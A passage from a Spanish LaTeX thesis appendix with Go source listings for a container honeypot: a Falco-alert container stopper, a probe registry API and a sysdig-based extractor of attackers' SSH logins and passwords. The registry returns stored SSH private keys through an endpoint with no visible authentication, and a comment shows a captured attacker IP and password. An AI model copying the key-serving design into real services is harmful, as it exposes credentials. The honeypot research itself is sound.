and independent documents or works, in or on a volume of a storage or
distribution medium, is called an ``aggregate'' if the copyright
resulting from the compilation is not used to limit the legal rights
of the compilation's users beyond what the individual works permit.
When the Document is included in an aggregate, this License does not
apply to the other works in the aggregate which are not themselves
derivative works of the Document.

If the Cover Text requirement of section 3 is applicable to these
copies of the Document, then if the Document is less than one half of
the entire aggregate, the Document's Cover Texts may be placed on
covers that bracket the Document within the aggregate, or the
electronic equivalent of covers if the Document is in electronic form.
Otherwise they must appear on printed covers that bracket the whole
aggregate.


\begin{center}
{\Large\bf 8. TRANSLATION}
\end{center}


Translation is considered a kind of modification, so you may
distribute translations of the Document under the terms of section 4.
Replacing Invariant Sections with translations requires special
permission from their copyright holders, but you may include
translations of some or all Invariant Sections in addition to the
original versions of these Invariant Sections.  You may include a
translation of this License, and all the license notices in the
Document, and any Warranty Disclaimers, provided that you also include
the original English version of this License and the original versions
of those notices and disclaimers.  In case of a disagreement between
the translation and the original version of this License or a notice
or disclaimer, the original version will prevail.

If a section in the Document is Entitled ``Acknowledgements'',
``Dedications'', or ``History'', the requirement (section 4) to Preserve
its Title (section 1) will typically require changing the actual
title.


\begin{center}
{\Large\bf 9. TERMINATION}
\end{center}


You may not copy, modify, sublicense, or distribute the Document except
as expressly provided for under this License.  Any other attempt to
copy, modify, sublicense or distribute the Document is void, and will
automatically terminate your rights under this License.  However,
parties who have received copies, or rights, from you under this
License will not have their licenses terminated so long as such
parties remain in full compliance.


\begin{center}
{\Large\bf 10. FUTURE REVISIONS OF THIS LICENSE}
\end{center}


The Free Software Foundation may publish new, revised versions
of the GNU Free Documentation License from time to time.  Such new
versions will be similar in spirit to the present version, but may
differ in detail to address new problems or concerns.  See
http://www.gnu.org/copyleft/.

Each version of the License is given a distinguishing version number.
If the Document specifies that a particular numbered version of this
License ``or any later version'' applies to it, you have the option of
following the terms and conditions either of that specified version or
of any later version that has been published (not as a draft) by the
Free Software Foundation.  If the Document does not specify a version
number of this License, you may choose any version ever published (not
as a draft) by the Free Software Foundation.

%---------------------------------------------------------------------

%%% Local Variables: 
%%% mode: latex
%%% TeX-master: "main"
%%% End: 

\section{Licencia Apache 2.0 aplicable a todo el código fuente}
Todo el código fuente listado en esta memoria o en soporte digital anexo se licencia bajo Apache License 2.0, una licencia libre sin \emph{copyleft} compatible con la GPL.
Se puede consultar los términos de la licencia en la página de Apache \url{http://www.apache.org/licenses/LICENSE-2.0}



\chapter{Código fuente}

\subsection{\emph{Container\_recycler}}
\label{subsec:containe-recycler-src-code}

Se incluye un extracto del código de \emph{container\_recycler} por completitud y como soporte a la lectura de la memoria. Sin
embargo, se recomienda su exploración en GitHub en \href{https://github.com/Fsero/container\_recycler}{https://github.com/Fsero/container\_recycler}, donde será más fácil interactuar con el código y ver cambios recientes si los 
hubiera.

\begin{minted}[fontsize=\scriptsize]{go}
    package main
    
    import (
        "bitbucket.org/fseros/container_recycler/handlers"
        "bufio"
        "context"
        "os"
        "runtime"
        "strings"
    )
    
    func main() {
        runtime.GOMAXPROCS(runtime.NumCPU())
        handlers.SetupLogging()
        ctx, cancel := context.WithCancel(context.Background())
        defer cancel()
    
        // TODO: Replace with config file
        ctx = context.WithValue(ctx, "exposure_time", "10m")
        ctx = context.WithValue(ctx, "container_api_timeout", "10s")
        ctx = context.WithValue(ctx, "tmp_flags_file_path", "/var/tmp/container_recycler_")
    
        // reading arguments
    
        for _, arg := range os.Args[1:] {
            r := strings.NewReader(arg)
            handlers.ParseFalcoNotifications(r, ctx)
        }
    
        // read from stdin
        r := bufio.NewReader(os.Stdin)
        handlers.ParseFalcoNotifications(r, ctx)
    
    }
    
\end{minted}
\captionof{listing}{container\_recycler - main.go \label{listing:container-recycler-main}}

\begin{minted}[fontsize=\scriptsize]{go}
    package handlers
    
    import (
        "context"
        "fmt"
        "io/ioutil"
        "os"
        "runtime"
        "strings"
        "time"
    
        log "github.com/Sirupsen/logrus"
        "github.com/docker/docker/api/types"
        "github.com/docker/docker/client"
    )
    
    type ContainerInfo struct {
        Name, ID string
    }
    
    func ListRunningContainers() []ContainerInfo {
        cli, err := client.NewEnvClient()
        if err != nil {
            log.Fatal(err)
        }
    
        containers, err := cli.ContainerList(context.Background(), types.ContainerListOptions{})
        if err != nil {
            log.Fatal(err)
        }
    
        container_list := make([]ContainerInfo, 0)
        for _, container := range containers {
            container_list = append(container_list, ContainerInfo{container.Image, container.ID[:10]})
        }
        return container_list
    }
    
    func printContainerList(container_list []ContainerInfo) {
        for _, container := range container_list {
            fmt.Printf("%s, %s\n", container.Name, container.ID)
        }
    }
    
    func deleteFlagFile(alreadyBeingDeletedFlag string, container ContainerInfo) {
    
        err := os.Remove(alreadyBeingDeletedFlag)
        if err != nil {
            log.Fatalf("unable to delete flag file %s for container %s ID=%s", alreadyBeingDeletedFlag,
                container.Name, container.ID)
        }
    }
    func checkIfExistsFlag(alreadyBeingDeletedFlag string, container ContainerInfo) (bool, error) {
    
        found := false
        fi, err := os.Stat(alreadyBeingDeletedFlag)
        if err == nil {
            found = true
            modtime := fi.ModTime()
            duration := time.Since(modtime)
            if duration.Minutes() > 20 {
                log.Infof("looks like file was not deleted in last execution, cleaning up...")
                found = false
                deleteFlagFile(alreadyBeingDeletedFlag, container)
            }
            log.Debugf("container %s already scheduled for being deleted ", container.Name)
            return found, err
        }
    
        return found, err
    
    }
    
    func ScheduleContainerStop(ctx context.Context, container ContainerInfo) {
    
        tmp_prefix_path := ctx.Value("tmp_flags_file_path").(string)
        alreadyBeingDeletedFlag := tmp_prefix_path + container.ID
        flag, err := checkIfExistsFlag(alreadyBeingDeletedFlag, container)
        if flag {
            log.Fatal(err)
        }
        log.Infof("scheduled container %s for stopping", container.Name)
        timeout_duration, err := time.ParseDuration(ctx.Value("exposure_time").(string))
        if err != nil {
            log.Fatalf("incorrect format for exposure_timeout")
        }
        log.Debug("ScheduleContainerStop: outside the lambda function waiting for DONE signal")
    
        //wait for the exposure_time
        timer := time.NewTimer(timeout_duration)
        runtime.Gosched()
        <-timer.C
        var data []byte
        data = make([]byte, 1)
        // creating the flag
        err = ioutil.WriteFile(alreadyBeingDeletedFlag, data, 0644)
        if err != nil {
            log.Fatal(err)
        }
        StopContainer(ctx, container)
        deleteFlagFile(alreadyBeingDeletedFlag, container)
        log.Debug("ScheduleContainerStop: Lambda function DONE")
    
    }
    
    func GetContainerByName(ContainerName string, container_list []ContainerInfo) (ContainerInfo, bool) {
        for _, container := range container_list {
            if container.Name == ContainerName {
                return container, true
            }
        }
        return ContainerInfo{}, false
    }
    
    func GetContainerByID(ContainerID string, container_list []ContainerInfo) (ContainerInfo, bool) {
        if len(ContainerID) <= 0 {
            log.Debug("GetContainerByID: NIL container id provided")
            return ContainerInfo{}, false
        }
    
        if len(container_list) <= 0 {
            log.Debug("GetContainerByID: NIL container_list provided")
            return ContainerInfo{}, false
        }
        for _, container := range container_list {
            if len(container.ID) < len(ContainerID) {
                log.Debugf("incomparable ID, provided ID is larger 
                            than existing one %s %d %s %d", container.ID,
                            len(container.ID), ContainerID, len(ContainerID))
                ContainerID = ContainerID[:len(container.ID)]
            }
            //convert to string
            IDstr := fmt.Sprint(container.ID)
            if strings.HasPrefix(IDstr, ContainerID) {
                return container, true
            }
        }
        return ContainerInfo{}, false
    }
    
    func StopContainer(ctx context.Context, container ContainerInfo) {
        log.Infof("Stopping container %s NOW!", container.Name)
        cli, err := client.NewEnvClient()
        if err != nil {
            log.Fatal(err)
        }
        timeout, err := time.ParseDuration(ctx.Value("container_api_timeout").(string))
        if err != nil {
            log.Fatalf("incorrect format for api timeout")
        }
        err = cli.ContainerStop(context.Background(), container.ID, &timeout)
        if err != nil {
            log.Fatal(err)
        }
    
        log.Infof("container %s has been stopped", container.Name)
    }
    
    
\end{minted}
\captionof{listing}{container\_recycler - handlers/container.go \label{listing:container-recycler-container}}


\begin{minted}[fontsize=\scriptsize]{go}
    package handlers
    
    import (
        "bufio"
        "context"
        "encoding/json"
        log "github.com/Sirupsen/logrus"
        "io"
        "os"
        "regexp"
        "sync"
        "time"
    )
    
    type FalcoNotification struct {
        RawOutput         string    `json:"output"`
        Priority          string    `json:"priority"`
        RuleNameTriggered string    `json:"rule"`
        Time              time.Time `json:"time"`
    }
    
    func SetupLogging() {
        log.SetFormatter(&log.TextFormatter{})
        log.SetOutput(os.Stdout)
        log.SetLevel(log.DebugLevel)
    }
    
    //{"output":"14:54:07.709160152: Alert Shell spawned in a container other than entrypoint 
    // (user=root ssh (id=52d928d8b2a3) shell=sh parent=watch cmdline=sh -c id)",
    // "priority":"Alert","rule":"Run shell in container","time":"2017-03-31T14:54:07.709160152Z"}
    
    func handle(ctx context.Context, f FalcoNotification, wg sync.WaitGroup) {
    
        log.Info(f)
    
        if f.Priority == "Alert" {
    
            var myExp = namedRegexp{regexp.MustCompile(
                `.*\(user=(?P<user>[[:alpha:]]+)\s+(?P<image_name>[[:alpha:]]+)\s+\(id=(?P<image_id>[[:alnum:]]{6,})\).*\)`
            )}
            data := myExp.FindStringSubmatchMap(f.RawOutput)
            log.Debug(data)
    
            log.Debug("Alert received, will try to stop container")
            container_list := ListRunningContainers()
    
            ctx = context.WithValue(ctx, "container_list", container_list)
            container, found := GetContainerByID(data["image_id"], container_list)
            if found {
                log.Debug("FalcoNotification.handle: stopping container")
                ScheduleContainerStop(ctx, container)
            } else {
                log.Warnf("Alert received relative for container ID %s (name=%s) not found in running containers", 
                           data["image_id"], data["image_name"])
            }
        }
    }
    
    func ParseFalcoNotifications(r io.Reader, ctx context.Context) {
        var f FalcoNotification
        scanner := bufio.NewScanner(r)
        var wg sync.WaitGroup
        for scanner.Scan() {
            if err := json.Unmarshal(scanner.Bytes(), &f); err != nil {
                log.Error(err)
    
                log.Debug("ParseFalcoNotifications: Bad FalcoNotification format")
                continue
            }
            wg.Add(1)
            log.Debug("ParseFalcoNotifications: received a falco notification")
    
            go func() {
                defer wg.Done()
                handle(ctx, f, wg)
            }()
        }
        wg.Wait()
    }

\end{minted}
\captionof{listing}{container\_recycler - handlers/falco\_notification.go \label{listing:container-recycler-falco-notification}}

\begin{minted}[fontsize=\scriptsize]{go}
    package handlers
    
    import (
        "regexp"
    )
    
    // embed regexp.Regexp in a new type so we can extend it
    type namedRegexp struct {
        *regexp.Regexp
    }
    
    // add a new method to our new regular expression type
    func (r *namedRegexp) FindStringSubmatchMap(s string) map[string]string {
        captures := make(map[string]string)
    
        match := r.FindStringSubmatch(s)
        if match == nil {
            return captures
        }
    
        for i, name := range r.SubexpNames() {
            // Ignore the whole regexp match and unnamed groups
            if i == 0 || name == "" {
                continue
            }
    
            captures[name] = match[i]
    
        }
        return captures
    }    
\end{minted}
\captionof{listing}{container\_recycler - handlers/namedRegexp.go \label{listing:container-recycler-named-regexp}}

\subsection{\emph{Sinker Registry API}}
\label{subsec:sinker-registry-api-src-code}
También se incluye un extracto del código de \emph{Sinker Registry API} por la razón de completitud y como soporte a la lectura de la memoria. Del mismo modo, se recomienda su exploración en GitHub en \href{https://github.com/Fsero/sinker\_registry\_api}{https://github.com/Fsero/sinker\_registry\_api}, donde será más fácil interactuar con el código y ver cambios recientes si los 
hubiera.

\begin{minted}[fontsize=\scriptsize]{go}
    package controllers
    
    import (
        "encoding/json"
    
        "fmt"
    
        "bitbucket.org/fseros/sinker_registry_api/models"
        log "github.com/Sirupsen/logrus"
        "github.com/astaxie/beego"
    )
    
    // Operations about probe
    type ProbeController struct {
        beego.Controller
    }
    
    func (p *ProbeController) URLMapping() {
        p.Mapping("Post", p.Post)
        p.Mapping("GetOne", p.Get)
        p.Mapping("GetAll", p.GetAll)
        p.Mapping("Put", p.Put)
        p.Mapping("Delete", p.Delete)
    }
    
    // @Title Create Probe
    // @Description create new probe
    // @Success 201 {object} models.Probe
    // @Param  fqdn  body string true "fqdn address of the probe"
    // @Param  ipv4  body string true "ipv4 address of the probe"
    // @Param  ipv6  body string false "ipv6 address of the probe"
    // @Param  provider  body string true "cloud provider of the probe"
    // @Param  geolongitude  body float false "geolongitude of the probe"
    // @Param  geolatitude  body float false "geolongitude of the probe"
    // @Param  sshprivatekey  body string false "ssh private key of the probe"
    // @Param  sshpublickey  body string false "ssh public key of the probe"
    // @Param  enabled  body bool false "probe status" "true"
    // @router / [post]
    func (p *ProbeController) Post() {
        var pr models.Probe
        pr.SetDefaults()
        json.Unmarshal(p.Ctx.Input.RequestBody, &pr)
        log.Debugf(" received %v via POST", pr)
        probeid, err := models.AddOne(pr)
        if err != nil {
            p.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
            p.Ctx.Output.SetStatus(400)
            p.ServeJSON()
            return
        }
        p.Data["json"] = map[string]string{"ProbeId": probeid}
        p.Ctx.Output.SetStatus(201)
        p.ServeJSON()
    }
    
    // @router /:id [get]
    func (p *ProbeController) Get() {
        ProbeID := getIDbyQueryParamOrAsAParam(p)
        if ProbeID != "" {
            ob, err := models.GetByID(ProbeID)
            if err != nil {
                p.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
            } else {
                p.Data["json"] = ob
            }
        }
        p.ServeJSON()
    }
    
    // @router / [get]
    func (p *ProbeController) GetAll() {
        obs := models.GetAll()
        p.Data["json"] = obs
        p.ServeJSON()
    }
    
    // @router /ip/:ip [get]
    func (p *ProbeController) GetByIP() {
        probeIP := p.Ctx.Input.Param(":ip")
        fmt.Printf("Looking for probes with ip %s", probeIP)
        if probeIP != "" {
            obs, err := models.GetByIPv4(probeIP)
            if err == nil {
                fmt.Printf("Found \n %+v", obs)
                newobs := make([]models.Probe, 0)
                for _, ob := range obs {
                    if ob.Enabled {
                        newobs = append(newobs, ob)
                    }
                }
                fmt.Printf("Found newobs \n %+v", newobs)
                p.Data["json"] = newobs
                p.Ctx.Output.SetStatus(200)
                p.ServeJSON()
            } else {
                p.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
                p.Ctx.Output.SetStatus(500)
                p.ServeJSON()
                p.StopRun()
            }
        }
    }
    
    // @router /name/:fqdn [get]
    func (p *ProbeController) GetByFQDN() {
        probeName := p.Ctx.Input.Param(":fqdn")
        fmt.Printf("Looking for probes with name %s", probeName)
        if probeName != "" {
            obs, err := models.GetByFQDN(probeName)
            if err == nil {
                fmt.Printf("Found \n %+v", obs)
                newobs := make([]models.Probe, 0)
                for _, ob := range obs {
                    if ob.Enabled {
                        newobs = append(newobs, ob)
                    }
                }
                fmt.Printf("Found newobs \n %+v", newobs)
                p.Data["json"] = newobs
                p.Ctx.Output.SetStatus(200)
                p.ServeJSON()
            } else {
                p.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
                p.Ctx.Output.SetStatus(500)
                p.ServeJSON()
                p.StopRun()
            }
        }
    }
    
    // @router /disable/?:id [put]
    func (p *ProbeController) Disable() {
        ProbeID := getIDbyQueryParamOrAsAParam(p)
        if ProbeID != "" {
            log.Infof("[controllers.probe.Disable]: disabling probe %s", ProbeID)
            ob, err := models.Disable(ProbeID)
            if err != nil {
                p.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
            } else {
                p.Data["json"] = ob
            }
        }
        p.ServeJSON()
    }
    
    func getIDbyQueryParamOrAsAParam(p *ProbeController) string {
        var ProbeID string
        ProbeID = p.GetString("id")
        if ProbeID == "" {
            ProbeID = p.Ctx.Input.Param(":id")
        }
        return ProbeID
    
    }
    
    // @router /enable/?:id [put]
    func (p *ProbeController) Enable() {
        ProbeID := getIDbyQueryParamOrAsAParam(p)
        if ProbeID != "" {
            log.Infof("[controllers.probe.Enable]: enabling probe %s", ProbeID)
            ob, err := models.Enable(ProbeID)
            if err != nil {
                p.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
            } else {
                p.Data["json"] = ob
            }
        }
        p.ServeJSON()
    }
    
    // @Title Updates traces path
    // @Description updates traces path
    // @Success 200 {object} models.Probe
    // @Param  tracespath  body string false "traces path for probe"
    // @router /tracespath/?:id [put]
    func (p *ProbeController) UpdateTracesPath() {
        ProbeID := getIDbyQueryParamOrAsAParam(p)
        if ProbeID != "" {
            log.Infof("[controllers.probe.UpdateTracesPath]: updating traces path for probe %s", ProbeID)
            var pr models.Probe
            json.Unmarshal(p.Ctx.Input.RequestBody, &pr)
            ob, err := models.UpdateTracesPath(ProbeID, pr.TracesPath)
            if err != nil {
                p.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
            } else {
                p.Data["json"] = ob
            }
        }
        p.ServeJSON()
    }
    
    // @Title Updates ssh key
    // @Description updates ssh key
    // @Success 200 {object} models.Probe
    // @Param  sshprivatekey  body string false "ssh private key of the probe"
    // @Param  sshpublickey  body string false "ssh public key of the probe"
    // @router /ssh/?:id [put]
    func (p *ProbeController) UploadSSH() {
        ProbeID := getIDbyQueryParamOrAsAParam(p)
        if ProbeID != "" {
            log.Infof("[controllers.probe.UploadSSH]: updating ssh key for probe %s", ProbeID)
            var pr models.Probe
            json.Unmarshal(p.Ctx.Input.RequestBody, &pr)
            ob, err := models.UploadSSH(ProbeID, pr.SSHPrivateKey, pr.SSHPublicKey)
            if err != nil {
                p.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
            } else {
                p.Data["json"] = ob
            }
        }
        p.ServeJSON()
    }
    
    // @Title Gets ssh key
    // @Description updates ssh key
    // @Success 200 {object} models.Probe
    // @Param  sshprivatekey  body string false "ssh private key of the probe"
    // @Param  sshpublickey  body string false "ssh public key of the probe"
    // @router /ssh/?:id [get]
    func (p *ProbeController) GetSSH() {
        ProbeID := getIDbyQueryParamOrAsAParam(p)
        if ProbeID != "" {
            log.Infof("[controllers.probe.GetSSH]: Getting ssh key for probe %s", ProbeID)
            keys, err := models.GetSSH(ProbeID)
            if err != nil {
                p.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
            } else {
                p.Data["json"] = map[string]string{"ProbeId": ProbeID, 
                "SSHPrivateKey": keys.Private, 
                "SSHPublicKey": keys.Public}
    
            }
        }
        p.ServeJSON()
    }
    
    func (p *ProbeController) Put() {
        var pr models.Probe
        pr.SetDefaults()
    
        json.Unmarshal(p.Ctx.Input.RequestBody, &pr)
        log.Debugf(" received %v via POST", pr)
        probeid, err := models.AddOne(pr)
        if err != nil {
            p.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
            p.Ctx.Output.SetStatus(400)
            p.ServeJSON()
            return
        }
    
        p.Data["json"] = map[string]string{"ProbeId": probeid}
        p.Ctx.Output.SetStatus(201)
        p.ServeJSON()
    }
    
    // @router /delete/?:id [delete]
    func (p *ProbeController) Delete() {
        ProbeID := getIDbyQueryParamOrAsAParam(p)
        if ProbeID != "" {
            log.Infof("[controllers.probe.Delete]: deleting probe %s", ProbeID)
            _, err := models.Delete(ProbeID)
            if err != nil {
                p.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
            } else {
                p.Data["json"] = fmt.Sprintf("{ 'msg': 'deleted probe with id %s' }", ProbeID)
            }
        }
        p.ServeJSON()
    }
    
\end{minted}
\captionof{listing}{sinkerregistryapi - controllers/probe.go \label{listing:sinker-registry-api-controllers-probe}}

\subsection{\emph{metadata\_extractor}}
\label{subsec:metadata-extractor-src-code}
Se incluye un extracto del código de \emph{metadata\_extractor} por completitud y como soporte a la lectura de la memoria. Sin
embargo se recomienda su exploración en GitHub en \href{https://github.com/metadata\_extractor}{metadata\_extractor} , dónde será más fácil interactuar con el código y ver cambios recientes si los 
hubiera.

\begin{minted}[fontsize=\scriptsize,linenos]{go}
    package parsers
    
    import (
        "bufio"
        "bytes"
        "encoding/json"
        "fmt"
        "os/exec"
        "regexp"
        "sort"
        "strconv"
        "strings"
    
        "bitbucket.org/fseros/metadata_extractor/helpers"
        "github.com/Sirupsen/logrus"
    )
    
    var loginAttemptRegexp = regexp.MustCompile(`(res=\d+) (data=.*PAM:authentication.*)(acct=.*)(exe=.*)
                          (hostname=.*)(addr=[\d{1,3}\.]+).*(res=failed|success).*`)
    var passwordInputRegexp = regexp.MustCompile(`(res=\d+) (data=.\w+.*)`)
    
    func Init() bool {
        _, err := exec.Command("/usr/bin/sysdig", "-h").Output()
        if err != nil {
            logrus.Fatalf("Unable to initialize ssh parsers %s", err)
            return false
        }
        return true
    }
    
    func extractLoginAttempt(fields []string) AttackerLoginAttempt {
    
        var capture AttackerLoginAttempt
        var subfields []string
        subfields = make([]string, 1)
    
        for key, field := range fields {
            if key == 0 {
                continue
            }
            if key == 2 {
                subfields = append(subfields, fmt.Sprintf("%s", field))
                continue
            }
            helpers.SplitFieldsBySep("=", field, &subfields)
        }
        capture.User = subfields[3]
        capture.Hostname = subfields[5]
        capture.IP = subfields[6]
        capture.Successful = subfields[7] == "success"
        return capture
    }
    
    func extractPassword(fields []string) AttackerLoginAttempt {
        var capture AttackerLoginAttempt
        var subfields []string
        subfields = make([]string, 1)
    
        for key, field := range fields {
            if key == 0 {
                continue
            }
            helpers.SplitFieldsBySep("=", field, &subfields)
        }
        str := strings.Join(subfields[2:], "")
        if strings.Contains(str, "PAM:") || len(str) > 30 {
            capture.Password = "'NOTFOUND'"
        } else {
            capture.Password = subfields[2]
        }
        return capture
    }
    
    func matchesRegexpTrace(trace Trace, re *regexp.Regexp) bool {
    
        str := strings.Replace(trace.EventInfo, "\n", "", -1)
        return re.MatchString(str)
    
    }
    
    func parseTraces(traces []Trace) []AttackerLoginAttempt {
        // on traces password appears first and then login attempt info.
        // traces should be ordered by time
        /*
            {63f6e3883d7c ssh 0 < res=10 data=
            abc123  159003 1496213704714312629 write sshd 21037 13946}
            {63f6e3883d7c ssh 0 < res=140 data=
            Lop=PAM:authentication acct="root" exe="/usr/sbin/sshd" hostname=107.160.16.221 
            addr=107.160.16.221 terminal=ssh res=success  159104 1496213704727977064 
            sendto sshd 21036 13945}
    
        */
        var m map[int][]Trace
        m = make(map[int][]Trace, 0)
        for _, trace := range traces {
            logrus.Debugf("[parseTraces] readed %+v", trace)
            tr := m[trace.ThreadTid]
            if tr == nil {
                tr = make([]Trace, 0)
            }
            tr = append(tr, trace)
            m[trace.ThreadTid] = tr
        }
    
        var keys []int
        for k := range m {
            keys = append(keys, k)
        }
        sort.Ints(keys)
        var LoginAttempts []AttackerLoginAttempt
        LoginAttempts = make([]AttackerLoginAttempt, 0)
    
        for k := 0; k < len(keys); k += 2 {
            var trace0, trace1 []Trace
            trace0 = m[keys[k]]
            logrus.Debugf("%d %+v\n", keys[k], m[keys[k]])
            if k+1 < len(keys) {
                trace1 = m[keys[k+1]]
                logrus.Debugf("%d %+v\n", keys[k+1], m[keys[k+1]])
            }
            switch {
            case len(trace0) <= 0 && len(trace1) <= 0:
                logrus.Fatalf("[parseTraces] invalid block, something nasty happened")
    
            case len(trace0) <= 0 && len(trace1) > 0:
                trace0, trace1 = trace1, trace0
                logrus.Debugf("[parseTraces] swapping blocks, something weird happened")
            }
    
            for i := range trace0 {
                var elem0, elem1 Trace
                if i < len(trace0) {
                    elem0 = trace0[i]
                } else {
                    elem0 = Trace{}
                }
                if i < len(trace1) {
                    elem1 = trace1[i]
                } else {
                    elem1 = Trace{}
                }
                var capture, p, l AttackerLoginAttempt
                logrus.Debugf("elem0 %+v elem1 %+v", elem0, elem1)
                switch {
                case matchesRegexpTrace(elem0, passwordInputRegexp) && matchesRegexpTrace(elem1, loginAttemptRegexp):
    
                    str := strings.Replace(elem0.EventInfo, "\n", "", -1)
                    fields := passwordInputRegexp.FindStringSubmatch(str)
                    p = extractPassword(fields)
                    str = strings.Replace(elem1.EventInfo, "\n", "", -1)
                    fields = loginAttemptRegexp.FindStringSubmatch(str)
                    l = extractLoginAttempt(fields)
                    l.UnixTime = (strconv.FormatInt(elem1.EventOutputUnixTime, 10)[0:13])
                    l.ContainerID = elem1.ContainerID
                    logrus.Debug("elem0 == pass and elem1 == login")
    
                case matchesRegexpTrace(elem1, passwordInputRegexp) && matchesRegexpTrace(elem0, loginAttemptRegexp):
                    str := strings.Replace(elem1.EventInfo, "\n", "", -1)
                    fields := passwordInputRegexp.FindStringSubmatch(str)
                    p = extractPassword(fields)
                    str = strings.Replace(elem0.EventInfo, "\n", "", -1)
                    fields = loginAttemptRegexp.FindStringSubmatch(str)
                    l = extractLoginAttempt(fields)
                    l.UnixTime = (strconv.FormatInt(elem0.EventOutputUnixTime, 10)[0:13])
                    l.ContainerID = elem0.ContainerID
                    logrus.Debug("elem1 == pass and elem0 == login")
    
                case matchesRegexpTrace(elem0, passwordInputRegexp) && matchesRegexpTrace(elem1, passwordInputRegexp):
                    logrus.Debugf("[parseTraces] two password blocks, Discarding")
                    continue
    
                case matchesRegexpTrace(elem1, loginAttemptRegexp) && matchesRegexpTrace(elem0, loginAttemptRegexp):
                    logrus.Debugf("[parseTraces] two login blocks, Discarding")
                    continue
    
                default:
                    if elem0.ContainerID == "" {
                        switch {
                        case matchesRegexpTrace(elem1, loginAttemptRegexp):
                            str := strings.Replace(elem1.EventInfo, "\n", "", -1)
                            fields := loginAttemptRegexp.FindStringSubmatch(str)
                            l = extractLoginAttempt(fields)
                            l.UnixTime = (strconv.FormatInt(elem1.EventOutputUnixTime, 10)[0:13])
                            p.Password = `'NOTFOUND'`
                            l.ContainerID = elem1.ContainerID
                            logrus.Debugf("[parseTraces] no password found :-(")
                            logrus.Debug("elem0 == [] and elem1 == login")
                        }
                    } else if elem1.ContainerID == "" {
                        switch {
                        case matchesRegexpTrace(elem0, loginAttemptRegexp):
                            str := strings.Replace(elem0.EventInfo, "\n", "", -1)
                            fields := loginAttemptRegexp.FindStringSubmatch(str)
                            l = extractLoginAttempt(fields)
                            l.UnixTime = (strconv.FormatInt(elem0.EventOutputUnixTime, 10)[0:13])
                            p.Password = `'NOTFOUND'`
                            l.ContainerID = elem0.ContainerID
                            logrus.Debugf("[parseTraces] no password found :-(")
                            logrus.Debug("elem0 == login and elem1 == [] ")
                        }
                    } else {
                        logrus.Fatalf("[parseTraces] unexpected error, 
                        we didnt receive any block %+v %+v", trace0, trace1)
                    }
    
                }
                capture.Password = p.Password
                capture.ContainerID = l.ContainerID
                capture.Hostname = l.Hostname
                capture.IP = l.IP
                capture.Successful = l.Successful
                capture.UnixTime = l.UnixTime
                capture.User = l.User
    
                if validateCapture(capture) {
                    logrus.Debugf("[parseTraces] adding capture %+v", capture)
                    LoginAttempts = append(LoginAttempts, capture)
                }
    
            }
        }
        return LoginAttempts
    }
    
    func ExtractAttackerLoginAttempt(file string) []AttackerLoginAttempt {
        //sysdig -j -A -F -r srv02.superprivyhosting.com.2017-05-31-06-54.part2 
        // container.id!=host and fd.num=4 and evt.is_io_write=true 
        // and evt.dir = '<' and proc.name=sshd | egrep -B1 PAM:
    
        sysdig := exec.Command("/usr/bin/sysdig", "-pc", "-j", "-F", "-A", "-r", file, 
                  "container.id!=host", "and", "fd.num=4", "and", 
                  "evt.is_io_write=true", "and", "evt.dir", 
                  "=", "'<'", "and", "proc.name=sshd")
        egrep := exec.Command("egrep", "-B1", "PAM:")
        removedashes := exec.Command("egrep", "-v", "\\-")
        output, stderr, err := helpers.Pipeline(sysdig, egrep, removedashes)
        logrus.Debug(sysdig)
        logrus.Debug(egrep)
        logrus.Debugf("STDERR: %s", stderr)
        if err != nil {
            if checkSysdigFailure(output, stderr, file) {
                logrus.Debugf("[ExtractAttackerActivity] Unable to launch sysdig %s", err)
                return nil
            }
        }
        var traces []Trace
    
        scanner := bufio.NewScanner(bytes.NewReader(output))
        for scanner.Scan() {
            var tr Trace
            line := scanner.Text()
            if len(line) == 0 {
                continue
            }
            logrus.Debugf("[ExtractAttackerLoginAttempt] readed \n %s", line)
            if err := json.Unmarshal([]byte(line), &tr); err != nil {
                logrus.Debugf("[ExtractAttackerLoginAttempt] Unable to get JSON %s ", err)
                logrus.Debugf("[ExtractAttackerLoginAttempt] Unable to parse trace from %s", line)
                continue
            }
            tr.EventInfo = strings.Replace(tr.EventInfo, "\n", "", -1)
            switch {
            case !loginAttemptRegexp.MatchString(tr.EventInfo) && !passwordInputRegexp.MatchString(tr.EventInfo):
                logrus.Debugf("[extractAttackerLoginAttempt] invalid trace, discarding it")
                continue
            case strings.Contains(tr.EventInfo, "ssh:notty"):
                logrus.Debugf("[extractAttackerLoginAttempt] invalid trace, discarding it")
                continue
            case loginAttemptRegexp.MatchString(tr.EventInfo) && !strings.Contains(tr.EventInfo, "PAM:authentication"):
                logrus.Debugf("[extractAttackerLoginAttempt] we are only interested on auth events from PAM")
                continue
            default:
                traces = append(traces, tr)
            }
    
        }
        if err := scanner.Err(); err != nil {
            logrus.Fatalf("[ExtractAttackerLoginAttempt] Unable to parse trace %s", err)
        }
        logrus.Debugf("num of traces %s", len(traces))
        sort.Sort(ByEventNumber(traces))
        LoginAttempts := parseTraces(traces)
        return LoginAttempts
    }
    
    //it reads raw data from command and outputs
    //a formatted list of lines
    func parseActivities(lines []byte) []string {
        headerRegexp := regexp.MustCompile(`(\d+) (\d{4}-\d{2}-\d{2} \d{2}:\d{2}:\d{2}\.\d{9}) (\w+)@(\w+)\)`)
        scanner := bufio.NewScanner(bytes.NewReader(lines))
        var buffer bytes.Buffer
        AttackerActivityLog := make([]string, 0)
    
        for scanner.Scan() {
            line := scanner.Text()
            if len(line) == 0 {
                continue
            }
            if headerRegexp.MatchString(line) {
                if buffer.Len() > 0 {
                    AttackerActivityLog = append(AttackerActivityLog, buffer.String())
                    buffer.Reset()
                }
                buffer.WriteString(line)
            } else {
                buffer.WriteString(line)
            }
    
        }
        return AttackerActivityLog
    }
    
    func isTraceFileOk(output, file string) bool {
        var isOk bool
        if strings.Contains(output, "Is the file truncated?") {
            isOk = false
            logrus.Debugf("looks like file is not complete, refusing to continue")
